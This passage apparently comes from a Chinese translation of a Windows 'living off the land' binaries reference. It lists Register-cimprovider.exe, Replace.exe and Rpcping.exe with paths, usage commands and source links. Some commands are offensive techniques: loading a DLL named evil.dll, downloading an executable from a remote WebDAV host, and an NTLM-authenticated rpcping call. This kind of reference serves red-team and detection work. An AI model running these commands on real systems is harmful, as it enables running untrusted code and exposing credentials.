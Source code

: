 ## Register-cimprovider.exe
- 使用说明：

用于注册新的WMI提供程序。

文件路径:
```
C:\Windows\System32\Register-cimprovider.exe
C:\Windows\SysWOW64\Register-cimprovider.exe
```
- 执行方式：
```
Register-cimprovider -path "C:\folder\evil.dll"
```
- 参考资料：
```
https://twitter.com/PhilipTsukerman/status/992021361106268161
```

## Replace.exe
- 使用说明：

命令行用于一个文件替换另一个文件。

文件路径:
```
C:\Windows\System32\replace.exe
C:\Windows\SysWOW64\replace.exe
```
- 执行方式：
```
replace.exe C:\Source\File.cab C:\Destination /A
replace.exe \\webdav.host.com\foo\bar.exe c:\outdir /A
```
- 参考资料：
```
https://twitter.com/elceef/status/986334113941655553
https://twitter.com/elceef/status/986842299861782529
```

## Rpcping.exe
- 使用说明：

用于验证rpc连接。

文件路径:
```
C:\Windows\System32\rpcping.exe
C:\Windows\SysWOW64\rpcping.exe
```
- 执行方式：
```
rpcping -s 127.0.0.1 -e 1234 -a privacy -u NTLM
```
- 参考资料：
```
https://github.com/vysec/RedTips
https://twitter.com/vysecurity/status/974806438316072960
https://twitter.com/vysecurity/status/873181705024266241
```
